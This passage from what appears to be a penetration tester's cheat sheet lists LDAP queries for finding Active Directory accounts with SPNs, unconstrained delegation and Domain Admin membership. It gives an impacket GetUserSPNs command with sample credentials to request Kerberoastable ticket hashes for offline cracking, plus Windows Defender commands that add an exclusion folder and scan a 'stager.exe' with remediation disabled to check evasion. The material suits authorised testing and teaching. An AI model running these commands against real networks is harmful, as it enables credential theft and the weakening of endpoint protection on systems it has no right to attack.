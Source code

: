 #### Users with SPNs

<pre class="language-powershell"><code class="lang-powershell">"(&#x26;(&#x26;(servicePrincipalName=*) (UserAccountControl:1.2.840.113556.1.4.803:=512)) (!(UserAccountControl:1.2.840.113556.1.4.803:=2)))"
<strong>
</strong>## if you get valid domain credentials, you can dump them w/ impacket for offline cracking:
python GetUserSPNs.py -request burmat.local/svc-burmat:burmat123$
</code></pre>

#### User and Computers with Unconstrained Delegation

```powershell
# user:
"(&(&(objectCategory=person) (objectClass=user)) (userAccountControl:1.2.840.113556.1.4.803:=524288))"

# computer:
"(&(objectCategory=computer) (objectClass=computer) (userAccountControl:1.2.840.113556.1.4.803:=524288))"
```

#### Domain Administrators

```powershell
"(&(objectClass=user) (memberof:1.2.840.113556.1.4.1941:=CN=Domain Admins,CN=Users,DC=burmat,DC=local))" "objectClass=groupPolicyContainer"
```

## ENDPOINT PROTECTION

### Endpoint Detection & Response (EDR)

#### Checking Status

{% code overflow="wrap" %}
```powershell
Get-MpComputerStatus
```
{% endcode %}

#### Adding Exclusion

{% code overflow="wrap" %}
```powershell
Add-MpPreference -ExclusionPath 'C:\windows\temp'
```
{% endcode %}

#### Scanning a File with Defender

{% code overflow="wrap" %}
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -Scan -ScanType 3 -DisableRemediation -File 'C:\stager.exe'
```
{% endcode %}
